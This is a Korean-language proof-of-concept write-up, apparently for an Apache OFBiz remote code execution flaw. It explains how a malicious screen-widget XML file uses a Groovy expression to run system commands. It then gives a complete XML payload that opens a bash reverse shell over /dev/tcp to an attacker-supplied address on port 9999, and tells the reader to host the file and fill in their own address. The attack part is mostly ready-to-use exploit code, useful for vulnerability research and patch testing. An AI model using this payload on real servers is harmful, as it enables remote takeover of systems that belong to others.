 위 코드를 살펴보면 다음과 같습니다.

✅ 악성 스크린 위젯(XML) 로직 설명

```xml
<set field="headerItem" value="${groovy:throw new Exception('ls -al'.execute().text);}"/>
```

- groovy 스크립트(`throw new Exception('ls -al'.execute().text);`)를 실행시킵니다.

```xml
<entity-one entity-name="FinAccount" value-field="finAccount"/>
```

- `FinAccount` 엔티티에서 정보를 가져와 가져온 데이터를 변수 `finAccount` 에 저장합니다.

위 내용을 토대로 다음 PoC를 통해 임의 명령어(`ls -al`)를 실행해보겠습니다.

# PoC

## 서버 악성 스크린 위젯 파일(XML) 준비

아래의 악성 스크린 위젯 파일(XML)을 서버에 저장합니다.

참고로, 임의 명령어를 실행할 경우 해당 값을 참조하여 출력하는 구문이 없으므로 다음과 같이 리버스 쉘을 이용합니다. 따라서, 아래 코드에서 `<리버스 쉘 주소>` 를 자신의 리버스 쉘 주소 정보로 변경합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:
                r = Runtime.getRuntime();
                p = r.exec(['/bin/bash','-c','exec 5&lt;&gt;/dev/tcp/<리버스 쉘 주소>/9999;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done'] as String[]);
                p.waitFor();
                }"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>
</screens>
```
